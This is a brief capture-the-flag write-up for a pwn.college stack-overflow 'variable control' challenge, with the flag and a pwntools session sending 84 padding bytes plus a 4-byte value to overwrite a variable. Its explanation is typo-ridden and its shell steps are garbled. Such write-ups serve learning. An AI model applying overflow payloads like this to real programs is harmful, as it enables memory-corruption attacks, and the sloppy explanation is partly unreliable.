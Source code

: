 # Variable control
we get the flag it said 84 bytes and the we add the value of the 4 bytes which will take us to the value that we require and reach the lose variable and that is the what we nneded to set without disturbing the variable value of zero

## Flag
pwn.college{8YaA3R5AQibmglgfNlky5kQSQAx.ddTNzMDL5gDN1czW}

## Solve
```bash
cd /
cd challenge
ls 
cat file
./ the file to veiw the details of the file 
In [1]: from pwn import *

In [2]: r=process('./binary-exploitation-var-control-w')
[x] Starting local process './binary-exploitation-var-control-w'
[+] Starting local process './binary-exploitation-var-control-w': pid 170

In [3]: value=0x5a79eb23

In [4]: playload=b'A'*84+p32(value)

In [5]: r.send(playload)

In [6]: r.readall()
[x] Receiving all data
[x] Receiving all data: 0B
[*] Process './binary-exploitation-var-control-w' stopped with exit code 0 (pid 170)
[x] Receiving all data: 4.00KB
[x] Receiving all data: 6.81KB
[+] Receiving all data: Done (6.81KB)
Out[6]: b'The challenge() function has just been launched!\nBefore we do anything, let\'s take a look at challenge()\'s stack frame:\n+---------------------------------+-------------------------+-------------------

```

- we get the flag after seeing the reuired byted needed to overflow the buffer and then we add the value of the offfset we do this and we get the correct value needed to crash the buffer and this is how we get the flag

## Reference
none



